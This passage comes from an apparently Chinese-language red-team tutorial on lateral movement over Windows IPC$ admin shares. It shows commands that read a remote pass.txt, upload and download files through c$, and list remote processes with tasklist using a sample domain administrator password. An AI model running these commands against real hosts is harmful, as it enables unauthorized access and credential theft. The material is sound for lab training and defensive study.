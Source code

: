 ```
type \\10.10.10.12\c$\pass.txt
```

![在这里插入图片描述](%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F_IPC.assets/aec4859df53f465f98009362aaa9d6b1.png) **6）上传文件到目标 C 盘**  
比如我们桌面有一个文件，上传到目标桌面，命令如下：

```
copy 要上传的⽂件名 \\10.10.10.8\c$\
copy C:\Users\saul\Desktop\1.txt \\10.10.10.8\c$\Users\Administrator\Desktop\
```

![在这里插入图片描述](%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F_IPC.assets/efeb21c145b64b28b8573e2f1a08188a.png) **7）下载目标 C 盘桌面下的 pass.txt 文件**  
下载文件我们也可以通过 copy 命令来完成：

```
copy \\10.10.10.8\c$\Users\Administrator\Desktop\flag.txt
```

![在这里插入图片描述](%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F_IPC.assets/b2bee7963bad4614a4a1dc9046a12cbe.png) **8）使用tasklist列出远程主机的进程列表：**

```
/S : 指定连接到的计算机或IP地址，默认本机
/u [<Domain>\]<UserName> : 指定使⽤哪个⽤户执⾏这个命令
/P [password] : 为指定的⽤户指定密码。
例：tasklist /S 10.10.10.8 /U redteam\administrator /P Admin12345!
```

![在这里插入图片描述](%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F_IPC.assets/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAQmV5b25kIE15,size_19,color_FFFFFF,t_70,g_se,x_16.png)
